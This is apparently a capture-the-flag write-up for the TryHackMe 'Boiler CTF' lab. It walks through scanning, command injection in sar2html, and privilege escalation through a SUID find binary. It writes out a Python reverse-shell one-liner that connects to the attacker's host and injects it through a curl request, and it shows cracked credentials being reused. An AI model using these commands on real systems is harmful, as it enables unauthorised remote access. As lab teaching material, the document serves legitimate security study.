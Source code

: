 # [Boiler CTF](https://tryhackme.com/room/boilerctf2)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Bolier CTF |
| Difficulty | Medium |
| Tags | ctf, ftp, ssh, webmin|
---

## Index

- [Enumeration](#enumeration)
- [Finding vunerabilities](#finding-vunerabilities)
- [Priviledge Escalation](#priviledge-escalation)
- [Final Thoughts](#final-thoughts)

---

```bash
export IP=10.10.190.6 # I went through so many lol
```

### Enumeration

```bash
nmap -sC -sV -v -A $IP -oN nmap/initial.nmap
```

`Initial`
```
# Nmap 7.91 scan initiated Wed Jul 21 15:17:41 2021 as: nmap -vvv -p 21,80,10000,55007 -sC -A -sV -v -oN nmap/initial.nmap 10.10.190.6
Nmap scan report for 10.10.190.6
Host is up, received syn-ack (0.18s latency).
Scanned at 2021-07-21 15:17:41 +04 for 103s

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:'<<IP>>'
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 9E85B5D6A09BB478578C67A5B7452FCB
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8bsvFyC4EXgZIlLR/7o9EHosUTTGJKIdjtMUyYrhUpJiEdUahT64rItJMCyO47iZTR5wkQx2H8HThHT6iQ5GlMzLGWFSTL1ttIulcg7uyXzWhJMiG/0W4HNIR44DlO8zBvysLRkBSCUEdD95kLABPKxIgCnYqfS3D73NJI6T2qWrbCTaIG5QAS5yAyPERXXz3ofHRRiCr3fYHpVopUbMTWZZDjR3DKv7IDsOCbMKSwmmgdfxDhFIBRtCkdiUdGJwP/g0uEUtHbSYsNZbc1s1a5EpaxvlESKPBainlPlRkqXdIiYuLvzsf2J0ajniPUkvJ2JbC8qm7AaDItepXLoDt
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLIDkrDNUoTTfKoucY3J3eXFICcitdce9/EOdMn8/7ZrUkM23RMsmFncOVJTkLOxOB+LwOEavTWG/pqxKLpk7oc=
|   256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPsAMyp7Cf1qf50P6K9P2n30r4MVz09NnjX7LvcKgG2p
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 21 15:19:24 2021 -- 1 IP address (1 host up) scanned in 103.08 seconds
```

nmap indicates that there is some sort of `robots.txt` file we can look at.

```txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

99b0660cd95adea327c54182baa51584
```

Before I access those directories, I decide to crack that cipher.
I first transform it from decimal to ASCII and from b64 decode it. Initially I thought it was hex but the hex to ASCII produced seemingly rubbish. However, the hash identifier seems to pick it up as a hash.
I use `hashcat` to crack the hash.

```bash
hashcat -m 0 -O '<<HASH>>' ~/wordlists/passwords/rockyou.txt --show
```

It is quickly cracked by hashcat and it seems to be a rabbit hole...
We can now move onto the directories listed in robots.txt

None of them worked. They were all a rabbit hole.

So we should move onto enumerating the website with `gobuster`

```bash
gobuster dir -t 32 -u $IP -w ~/wordlists/website/big.txt
```

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/joomla (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

We have a CMS on this site: Joomla. Time to enumerate it!

```bash
gobuster dir -t 64 -u http://$IP/joomla -w ~/wordlists/website/big.txt
```

```txt
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_archive (Status: 301)
/_database (Status: 301)
/_files (Status: 301)
/_test (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~www (Status: 301)
```

The `_{filenames}` look interesting to me.

---

### Finding vunerabilities

Opening each one reveals...a rabbit hole! You'll find ciphers in them (which I decoded, they're relatively simple) but they all lead to _**rabbit holes**_. I do like them though, adds character to the box.

Well, all of them except one leads to a rabbit hole: `_test` is definitely something we can exploit because doing a quick google search on `sar2html` there are a variety of exploits which we can exploit.

I quickly find a promising python exploit (saved in `exploits/exploit.py` if you want to have a look at it) but rather than using that:

```python
output = sess.get(f"{url}/index.php?plot=;{cmd}")
try:
    out = re.findall("<option value=(.*?)>", output.text)
except:
    print ("Error!!")
```

All it is really doing is going to `index.php` and using `plot=;{cmd}` for the exploit.
(Also note, that the shebang line is incorrect - it should come first.)

Instead of that, I will use `curl`

```bash
curl "http://$IP/joomla/_test/index.php?plot=;whoami" | html2text
'% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                               Dload  Upload   Total   Spent    Left  Speed
0     0    0     0    0     0      0      0 --:--:-- -- 59  5805   59  3478    0     0   7868      0 --:--:-- --100  5805  100  5805    0     0  13133      0 --:--:-- --:--:-- --:--:-- 13103


                                 sar2html
                           (Donate if you like!)

  * New
  * ;whoami
        o HP-UX
        o Linux
        o SunOS

[One of: Select Host/HPUX/Linux/SunOS/www-data]
[One of: Select Host First]
[One of: Select Start Date First]'
```

Note, right there at the bottom, we can see the result of our command: `www-data`.

I craft up a simple python reverse-shell payload:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And add that to my curl request:

```bash
curl "http://$IP/joomla/_test/index.php?plot=;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<<IP>>',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```
And we are in!

---

### Priviledge Escalation

This was probably the easiest section of them all.
The directory in which we spawn in has a file: `log.txt` which contains a password.

Navigating to the home directory, we notice two users: `stoner` and `basterd`.
I find that we can `su basterd` with the password we found earlier and there's a script `backup.sh` we can read which contains the plaintext password of the _other_ user `stoner`.
`su stoner` and we now have the user flag!

Moving onto gaining root access, I grab linpeas and notice two major things: first we are part of the `lxd` group which can be exploited or even easier: the `find` SUID bit is set.

```bash
find . -exec /bin/bash -ip \;
```

And we are now root! And can grab the root flag!

---

### Final Thoughts

Fun room which tests your enumeration skills well. I had a few issues with the openvpn with this room (resolved by restarting the box now and again) but the room has a lot of merit (and rabbit holes). Would recommend!

---

![](./.assets/rabbit_holes.jpeg)
